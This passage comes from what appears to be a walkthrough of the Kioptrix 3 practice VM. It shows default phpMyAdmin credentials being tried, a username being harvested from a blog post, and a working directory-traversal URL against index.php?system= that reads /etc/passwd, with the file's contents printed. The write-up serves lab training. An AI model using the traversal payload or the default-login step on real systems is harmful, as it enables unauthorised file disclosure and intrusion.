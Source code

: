 
  
Since there's a phpMyAdmin portal available, let's try some default
username/password.  
"admin" with an empty password worked! Unfortunately, "admin" user has only
access to "information_schema" and didn't reveal any credentials we can use to
get a shell through SSH.  
  
Fuck it, let's check the actual site.  
  
After poking through the site it seems to contain 2 components:  

  * **Ligoat Security blog**
** **
  * **Gallery (Kioptrix3.com/gallery)**

Before trying out our webapp pentesting skills, it's worth noting that we
found a username in the second blogpost!  
  

    
    
    Welcome **loneferret**! and don't forget to fill in your time sheet.  
    

  
This piece of info will result in getting limited shell, follow-up here.  
  

#### **LFI**

  
After spending some time I wasn't able to find a file inclusion vulnerability.
After I rooted the VM I found out it is indeed possible.  
Doesn't work:  

    
    
    http://192.168.1.70/index.php?system=../../../../../../../../../../../../../../../../../etc/passwd   
    

Works:  

    
    
    http://192.168.1.70/index.php?system=../../../../../../../../../../../../../../../../../etc/passwd.html  
    

  
Content of /etc/passwd (which confirms that **loneferret **exists):  

    
    
    root:x:0:0:root:/root:/bin/bash  
    daemon:x:1:1:daemon:/usr/sbin:/bin/sh  
    bin:x:2:2:bin:/bin:/bin/sh  
    sys:x:3:3:sys:/dev:/bin/sh  
    sync:x:4:65534:sync:/bin:/bin/sync  
    games:x:5:60:games:/usr/games:/bin/sh  
    man:x:6:12:man:/var/cache/man:/bin/sh  
    lp:x:7:7:lp:/var/spool/lpd:/bin/sh  
    mail:x:8:8:mail:/var/mail:/bin/sh  
    news:x:9:9:news:/var/spool/news:/bin/sh  
    uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh  
    proxy:x:13:13:proxy:/bin:/bin/sh  
    www-data:x:33:33:www-data:/var/www:/bin/sh  
    backup:x:34:34:backup:/var/backups:/bin/sh  
    list:x:38:38:Mailing List Manager:/var/list:/bin/sh  
    irc:x:39:39:ircd:/var/run/ircd:/bin/sh  
    gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh  
    nobody:x:65534:65534:nobody:/nonexistent:/bin/sh  
    libuuid:x:100:101::/var/lib/libuuid:/bin/sh  
    dhcp:x:101:102::/nonexistent:/bin/false  
    syslog:x:102:103::/home/syslog:/bin/false  
    klog:x:103:104::/home/klog:/bin/false  
    mysql:x:104:108:MySQL Server,,,:/var/lib/mysql:/bin/false  